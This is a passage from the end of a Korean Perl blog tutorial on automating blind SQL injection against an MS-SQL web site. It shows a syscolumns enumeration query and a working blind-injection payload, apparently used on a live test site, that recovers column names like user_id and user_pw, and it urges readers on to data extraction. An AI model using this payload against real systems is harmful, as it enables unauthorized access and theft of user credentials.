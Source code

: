 지금까지의 코드라면 취약한 사이트의 데이터베이스와 테이블의 이름을 확보했습니다.
이제 컬럼명을 찾아내야 할 차례지만 이는 여러분의 몫입니다.
대신 만드는 방법을 간단히 귀띔해드리죠.

MS-SQL에서 모든 컬럼을 저장하고 있는 `syscolumns` 테이블을 이용해야 합니다.
사용자 정의 테이블의 내용만 얻어오기 위한 질의는 다음과 같습니다.

    #!sql
    select name from syscolumns where id = ( select id from sysobjects where name='table' )

이 때 `table`에는 이전에 알아낸 테이블 이름을 넣어주면 되겠죠?
현재 제가 SQL 삽입을 테스트 하던 사이트의 경우 최종적으로 만들어진 질의는 이런 느낌입니다.

    #!sql
    mana' and substring((select top 1 name from syscolumns where id=(select top 1 id
    from sysobjects where xtype='U'  and name!='zipcode'  and name!='board'
    and name!='dtproperties' )  and name!='address1'  and name!='address2'  and name!='age'
    and name!='email'  and name!='homepage'  and name!='id'  and name!='name'  an
    d name!='nickname'  and name!='user_id'  and name!='user_pw'  and name!='zipcode'
    ),1,1)='_'--

단순한 패턴이지만 참 길게 느껴지네요.
여기까지의 내용으로 데이터베이스의 구조적인 내용들을 알아냈다면, 이제는 데이터도 추출이 가능합니다.
꼭 성공(?)하시길!!


정리하며
---------

펄(Perl)의 장점인 문자열을 편하게 다룰 수 있다는 것을 보여드리고 싶었는데 잘 전달되었는지 모르겠네요.
그래도 직접 만들어 보시면 C나 JAVA와는 비교조차 할 수 없을 정도로 편하다는 것을 깨달을 수 있죠.
제가 사용한 방법이 정석은 아닙니다.
[SQL 삽입(SQL injection)][wiki-sql-injection]과 [블라인드(blind) 기법][wiki-sql-injection-blind]
및 이를 구현하는 펄 코드는 여러가지 다양한 응용 방법이 있으니
너무 기사에 보인 내용에만 너무 얽매이진 말고 학문적인 내용으로만 봐주세요. :-)


[img-1]:          2015-12-17-1.png

[img-1-resize]:   2015-12-17-1_r.png

[cpan-lwp]:                 https://metacpan.org/pod/LWP
[cpan-www-mechanize]:       https://metacpan.org/pod/WWW::Mechanize
[cpan]:                     http://www.cpan.org/
[home-perlbrew]:            http://perlbrew.pl/
[twitter-vohrmana]:         http://twitter.com/#!/vohrmana
[wiki-sql-injection-blind]: https://en.wikipedia.org/wiki/SQL_injection#Blind_SQL_injection
[wiki-sql-injection]:       https://en.wikipedia.org/wiki/SQL_injection
